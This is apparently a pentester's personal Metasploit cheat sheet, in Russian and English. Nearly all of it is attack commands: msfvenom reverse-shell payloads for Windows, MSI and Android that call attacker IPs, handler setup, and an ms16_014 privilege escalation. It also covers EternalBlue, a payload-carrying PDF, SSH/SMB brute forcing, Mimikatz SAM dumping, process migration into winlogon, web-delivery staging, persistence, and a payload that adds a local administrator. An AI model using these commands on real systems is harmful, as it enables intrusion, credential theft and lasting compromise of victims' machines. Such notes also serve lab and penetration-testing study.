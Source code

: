 # MetaSploit

searchsploit desctop control   поиск эксплойта для названия

# расширение incognito для работы с токенами
в метерпретер - load incognito
   list_token -u
   
# использование эксплйтов ядра
Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe > shell.exe
7. Copy the generated file, shell.exe, to the Windows VM.

Windows VM

1. Execute shell.exe and obtain reverse shell

Detection & Exploitation

Kali VM

1. In Metasploit (msf > prompt) type: run post/multi/recon/local_exploit_suggester
2. Identify exploit/windows/local/ms16_014_wmi_recv_notif as a potential privilege escalation
3. In Metasploit (msf > prompt) type: use exploit/windows/local/ms16_014_wmi_recv_notif
4. In Metasploit (msf > prompt) type: set SESSION [meterpreter SESSION number]
5. In Metasploit (msf > prompt) type: set LPORT 5555
6. In Metasploit (msf > prompt) type: run

# Содаем исполнимый файл для виндовс

msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe

# Создаем реверс шелл для виндовс

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 (только дописать -->     Invoke-PowerShellTcp -Reverse -IPAddress 10.18.35.17 -Port 4545)

https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

https://www.revshells.com/

c meterpreter сессией

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.50.200 lport=5555 -f exe -o sh1.exe

проверено для netcat

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.35.17 LPORT=53 -f exe -o reverse.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.18.35.17 LPORT=7777 -f exe -o Zero.exe

msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi



Включаем хендлер

rlwrap nc -lvnp 7777

вместо неткат для метасплойт

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set payload windows/x64/meterpreter_reverse_tcp

set PAYLOAD windows/x64/shell_reverse_tcp

Миграция в процесс

migrate -N winlogon.exe

Для АНДРОИД

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.50.123 lport= 5555 R> Test.apk

Эксплоит в PDF​
Так же для фреймворка не составит труда сгенерировать PDF файл с полезной нагрузкой и аналогичным образом подключиться к нему. Давайте же приступим!

Здесь уже msfvenom нам не понадобиться, будем всё делать прямиком в метасплоите, поэтому снова его запускаем msfconsole.

Далее прописываем вот такие команды:

Код:

use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs


Здесь будет задействован эксполит, который будет встроен в PDF файл

Код:

set lhost 192.168.0.9

set lport 4444

set filename Test3.pdf


Здесь задаём имя нашему файлу


# Для брута 
use auxiliary/scanner/ssh/ssh_login

use auxiliary/scanner/smb/smb_login
set rhost
set 

# МИМИКАТЗ в метасплойт

kiwi_cmd lsadump::sam

Поиск уязвимостей ядра

(в метерпретер-сессии)

run post/multi/recon/local_exploit_suggester


# eternalblue в метасплойт

use exploit/windows/smb/ms17_010_eternalblue

   show payloads

set payload windows/x64/shell/reverse_tcp

# из шелла в метерпретер

post/multi/manage/shell_to_meterpreter

# Beб деливери 

use exploit/multi/script/web_delivery

set target 2

set payload windows/meterpreter/reverse_http

set lhost 1221321321
set lport 1231231

run

# настроить постоянное присутствие 

https://www.offsec.com/metasploit-unleashed/meterpreter-service/




